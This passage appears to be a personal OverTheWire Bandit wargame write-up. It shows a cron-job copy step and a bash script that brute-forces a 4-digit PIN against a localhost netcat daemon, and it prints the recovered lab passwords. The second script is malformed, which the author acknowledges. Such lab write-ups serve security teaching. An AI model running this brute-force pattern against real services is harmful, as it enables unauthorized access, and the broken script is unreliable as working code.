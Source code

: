 ```py

$ cp script.sh /var/spool/bandit24
# copy script into the /var/spool/bandit24 folder.

# Give it a minute to allow the cron job to run and then cat the file you specified as output.
$ dir -a
.  ..  pass  script.sh
$ cat /tmp/jhalon/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---

## Bandit Level 24 → Level 25 `nc localhost port password pin`
Level Goal
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, `brute-force`.

- Objective
  - Brute force the server listening on port 30002 using the password for Bandit 24.

list of general steps for this challenge/script.
  - Connect to the service
  - Send a password + pin combo (Script and `automate this process`)
  - Evaluate the results

1. go ahead and write a `Bash Script` to Brute Force the PIN while attempting a connection.

`echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1001 | nc localhost 30002 >> result &`

```py
-----------------------------------------------------
#!/bin/bash
password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {0000..9999}
  do
    echo $password24 $i >> passlist.txt
  done
# generated the passlist.txt with the password and 0000 for example:
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
...
# cat this file into nc and let it run
cat passlist.txt | nc localhost 30002
-----------------------------------------------------
#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0000-10000};
  do
    echo $passwd' ''$a | nc localhost 30002 >> result &
  done
# put in result and search
# but actullay it cannot loop
# need troubleshoott
bandit24@melinda:/tmp/jhalon$ chmod 755 script.sh
bandit24@melinda:/tmp/jhalon$ ./script.sh
bandit24@melinda:/tmp/jhalon$ sort result | uniq -u
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
